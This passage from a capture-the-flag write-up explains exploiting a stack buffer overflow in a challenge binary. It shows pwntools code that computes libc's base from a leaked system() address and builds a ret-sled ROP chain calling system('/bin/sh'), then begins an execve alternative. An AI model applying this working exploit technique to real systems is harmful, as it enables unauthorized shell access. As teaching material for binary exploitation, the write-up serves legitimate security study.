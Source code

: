 After a few lucky guesses (`N-N-N-Y-N` seemed to be a lucky winning combination), `vuln()` was called.  Here the binary prints the address of `system()` and prompts for user input, retrieving it with `fgets()`.  While `fgets()` is a safer function than its vulnerable cousin `gets()`, the program has a clear overflow vulnerability by reading in 400 bytes into a 100 byte buffer.  Disassembly shows that the buffer is actually set to `0x70 = 112` bytes, but still clearly vulnerable to overflow.  This allows for RIP control and a rop chain that uses gadgets in both the binary and libc, since the address to `system` can be used to calculate libc's base address during execution.  A snippet from `baby_graph_solver.py` is included below showing the calculation.  

~~~python
# receive the system pointer from binary output
p.recvuntil("prize: ")
system_addr = p.recvline().strip()
system_addr = int(system_addr, 16)
# calculate libc base using pwntools
libc = ELF('./libc.so.6')
system_offset = libc.symbols['system']
libc_base = system_addr - system_offset
~~~ 

The rationale for finding libc's base address is to locate the address of `/bin/sh` to get a shell, as `/bin/sh` does not exist in the binary itself.  The buffer can be overflowed precicely, or the chain case use a `ret` address to create a "ret sled" that will slide into the first ROP gadget.  Since there are plenty of `pop rdi` gadgets in libc that can pop `/bin/sh` into the register, the ROP chain should be as simple as: 

~~~python
r = ROP(libc)
# /bin/sh string
bin_sh_offset = next(libc.search(b'/bin/sh\x00'))
bin_sh_addr = bin_sh_offset + libc_base
# pop rdi gadget
pop_rdi_offset = r.find_gadget(['pop rdi', 'ret']).address
pop_rdi_addr = pop_rdi_offset + libc_base
# ret gadget
ret_offset = r.find_gadget(['ret']).address
ret_addr = ret_offset + libc_base
chain = [
    pop_rdi_addr,
    bin_sh_addr,    # rdi
    system_addr,    # system call
]
p.sendline(p64(ret_addr) * (250 // 8) +  b''.join(p64(r) for r in chain))
~~~

Only, it's not?  The exploit, which works locally, continued to fail on the server.  Extensive debugging ensued which included a successful call to `puts` with `/bin/sh` popped into `rdi`.  Therefore the only conclusion which can be reached is that there was an error in the call to `system` on the server binary.  

An alternative means of popping a shell was created; this time using `execve` in lieu of `system`.  With libc available, finding `pop rsi` and `pop rdx` gadgets was not difficult, though the provided libc's simplest `pop rdx` gadget also included a pop to `r12`.  Furthermore, some implementations require that `rsi` and `rdx` point to `NULL` as opposed to storing `NULL` directly in the register.  Taking this into account, the following rop chain was developed:
